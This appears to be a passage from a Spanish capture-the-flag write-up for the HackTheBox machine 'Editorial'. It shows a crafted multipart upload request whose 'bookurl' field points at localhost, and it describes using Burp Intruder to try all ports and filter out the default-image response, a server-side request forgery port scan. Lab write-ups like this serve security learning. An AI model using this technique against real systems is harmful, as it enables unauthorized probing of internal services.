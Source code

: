 ```

Connection: close

Referer: http://editorial.htb/upload



-----------------------------369402493640784425151506746531

Content-Disposition: form-data; name="bookurl"



http://localhost:<PORT>/

-----------------------------369402493640784425151506746531

Content-Disposition: form-data; name="bookfile"; filename=""

Content-Type: application/octet-stream





-----------------------------369402493640784425151506746531--
```

Donde pone `<PORT>` tendremos que poner los dos simbolos del `Intruder` para que pruebe ahi todos los puertos posibles que son `65535` puertos, haciendo la siguiente comparativa...

Ya que cuando ponemos cualquier puerto nos sale esta respuesta...

```
HTTP/1.1 200 OK

Server: nginx/1.18.0 (Ubuntu)

Date: Mon, 17 Jun 2024 15:12:28 GMT

Content-Type: text/html; charset=utf-8

Connection: close

Content-Length: 61



/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
```

Nos aparece siempre la misma imagen, por lo que si aparece eso no sera el puerto correcto, tendremos que filtrar en el `Intruder` poniendo que no nos muestre el contenido que lleve `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg` por lo que nos mostrara solo los que sean diferentes siendo asi el puerto correcto...
